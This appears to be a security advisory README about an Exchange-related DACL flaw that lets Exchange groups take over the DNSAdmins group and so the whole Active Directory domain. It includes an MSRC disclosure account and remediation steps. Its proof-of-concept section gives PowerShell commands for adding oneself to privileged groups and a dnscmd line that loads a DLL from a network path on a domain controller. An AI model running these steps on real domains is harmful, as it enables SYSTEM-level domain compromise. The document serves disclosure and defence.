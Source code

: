 ## DNSAdmins group DACL privilege escalation

A privilege escalation is possible from the **Exchange Windows permissions** (EWP) 
and from the **Exchange Trusted Subsystem** security groups to control the DNSAdmins group and then compromise the entire prepared Active Directory domain.
This second part was described in [this work from Shay Ber](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83) in 2017

As a matter of fact, any security group inheriting its DACL from the Domain Object can be controlled in this way. The ones giving a privilege escalation to Domain Admins are usually protected by AdminSDHolder, though the DNSAdmins group is not.

DISCLAIMER: This issue has been responsibly disclosed to MSRC in November 2018 and after a few back and forth emails, they closed the case.
Basically, they could not reproduce the issue in their testing environments. 
However, the DACL of the incriminated object on their side appears to be quite different from the DACL that I observed in several live production AD domains: MSRC side DACL has a few *Deny* ACEs explicitely positioned for the incriminated Exchange security groups, where production side has only *Allow* ACEs. Not to mention *Deny* ACEs are bad practice for a case where *Allow* ACEs should just be removed.


From there, I can only speculate that either they have an unreleased fix on their testing environments, or their path of Exchange deployment on AD is different
from what is commonly observed on live domains, which are upgraded and not redeployed on CU releases. If the aformentioned *Deny* ACEs are set on your environment, it is probably *NOT* vulnerable.


* Description of the issue

In up-to-date deployments of Exchange 2016 in Shared permissions (default) or RBAC split permissions, three controlling ACEs are positioned on the "CN=DNSAdmins,CN=Users" group for the **Exchange Windows Permissions** 
and for the **Exchange Trusted Subsystem** security groups. They are inherited from the Domain Object, two of them are documented, the ETS one is not.

This undocumented ACE is probably positioned during an update or a particular CU install. I have been confirmed it exists on other organizations production environments. This is their SDDL representation:

```
(OA;CIID;WP;bf9679c0-0de6-11d0-a285-00aa003049e2;;<SID of EWP>)
(OA;CIID;WP;0296c120-40da-11d1-a9c0-0000f80367c1;;<SID of EWP>)
(OA;CIID;WD;;bf967a9c-0de6-11d0-a285-00aa003049e2;<SID of ETS>)
```

Which translates into:

| Account | ACE type | Inheritance | Permissions | On property/ Applies to | Comments |
| ------- | -------- | ----------- | ----------- | ----------------------- | -------- |
| Exchange Windows Permissions | Allow ACE | All | WriteProp | ManagedBy / | |
| Exchange Windows Permissions | Allow ACE | All | WriteProp | Member / | |
| Exchange Trusted Subsystem | Allow ACE | All | WriteDACL | / Group | |


* Technical consequence

Any member of Exchange Windows Permissions can add members to DNSAdmins. 

![EWP effective access](DNSAdmins_EWP.png "EWP effective access")


Any member of Exchange Trusted Subsystem can modify DNSAdmins DACL to grant himself permission to add members to it.

![ETS effective access](DNSAdmins_ETS.png "ETS effective access")

The DNSAdmins group has a particular privilege to remotely load DLLs on domain controllers in the SYSTEM context (by design, as MSRC case 38121 reported by Shay Ber). 

* Security Consequence

Any member of the Organization Management group can execute code remotely on the domain controllers in the SYSTEM context, taking complete control of the Active Directory domain.

* Proof of concept

1) From an Organization Management member account, add yourself to Exchange Windows Permissions
This is possible by default and normal

```
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members $user
```

2) LOG OUT AND RELOG THE USERS SESSION to update groups in token

3) Add yourself to DNSAdmins
This is the problem, it should not be possible

```
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
Add-ADGroupMember -Identity "DNSAdmins" -Members $user
```

4) LOG OUT AND RELOG THE USERS SESSION to update groups in token

5) Choose a domain controller and remotely change a registry key to load a dll (needs specific exports) on next DNS service restart:

```
dnscmd test_domain_controller /config /serverlevelplugindll \\NetworkPath\to\dll
```

* Workaround fix

Use the Fix-DNSAdmins-DACL.ps1 Powershell script in this repository. Read it, test it, use it at your own risk.

By default, it checks the three faulty ACEs, this can be done by any user. Use with -Fix switch with Domain Admins privileges to remove them.


Alternatively, it can be done manually with LDP: bind as a Domain Admin account with the usual precautions, as you will change the DNSadmins group DACL.

Backup the DACL: 

```
(Get-Acl "AD:\CN=DNSAdmins,CN=Users,DC=...").Sddl | Out-File "dnsadmins_dacl.txt"
```

Locate the "CN=DNSAdmins,CN=Users,DC=..." security group. Disable ACE inheritance and choose to copy existing ACEs. Locate and delete the 3 faulty ACE in the DACL: you can sort by Trustee to see Exchange Windows Permissions and Exchange Trusted Subsystem.



